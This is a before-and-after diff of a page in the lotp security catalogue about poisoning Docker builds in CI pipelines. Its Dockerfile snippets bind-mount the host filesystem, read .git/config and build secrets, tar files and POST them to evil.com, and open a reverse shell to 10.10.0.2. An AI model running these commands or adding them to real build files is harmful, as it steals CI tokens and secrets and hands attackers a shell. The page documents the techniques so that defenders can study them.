

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/docker.md, in a window 1280 px wide, cut to the strip 0-989 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 904 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Poison build, simplify config

````diff
--- a/_tool/docker.md
+++ b/_tool/docker.md
@@ -5,32 +5,36 @@
   - config-file
   - eval-sh
 references:
+  - https://docs.docker.com/reference/dockerfile/
+  - https://docs.docker.com/build/concepts/dockerfile/
 files: [Dockerfile]
 ---
 
-Docker is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile. See [Dockerfile reference](https://docs.docker.com/reference/dockerfile/) and [Dockerfile overview](https://docs.docker.com/build/concepts/dockerfile/).
+`docker` is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile.
+`docker build <path>` is strongly limited to the build context. No modification can be done to the file system.
 
-## `docker build`
-
-`docker build <path>` allow RCE in the limited context of the build:
-  - if the Dockerfile can be modified, by adding `RUN <sh_cmd>`.
-  - if the input of `RUN` is controllable.
-Since the build command set the context to a copy of the current folder, we can't the filesystem. If we have control over the context path `docker build <controlled_path> -f <Dockerfile>`, we can exfiltrate any data from the host.
-
-
-Exfiltrate every file available
+Exfiltrate **GITHUB_TOKEN**
 ```Dockerfile
-FROM alpine/curl
 RUN --mount=type=bind,source=/,target=/host \
-    tar -czf /src.tar.gz /host/*;
-RUN curl -X POST -d "/src.tar.gz" http://evil.com
+    cat /host/.git/config
 ```
 
-Exflitrating runner secrets
+If the context path is controllable `docker build <controlled_path> -f <Dockerfile>`, any data from the runner is exfiltrable.
 ```Dockerfile
-FROM alpine/curl
-RUN --mount=type=secret,id=<secret_name> \
-    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com;
 RUN --mount=type=bind,source=/,target=/host \
-    curl -X POST -d "/host/.git/config" http://evil.com
+    tar -czf /src.tar.gz /host/* ; \
+    curl -X POST -d "/src.tar.gz" http://evil.com
 ```
+
+Exfiltrate runner secrets, if secrets are used: `docker build --secret id=mysecret,src=secretFile .`
+```Dockerfile
+RUN --mount=type=secret,id=mysecret \
+    cat /run/secrets/mysecret
+```
+
+The image can be modified for RCE on creation of the container:
+```Dockerfile
+FROM linuxserver/openssh-server
+FROM myorg/evil
+RUN sh -i >& /dev/tcp/10.10.0.2/443 0>&1
+```
````
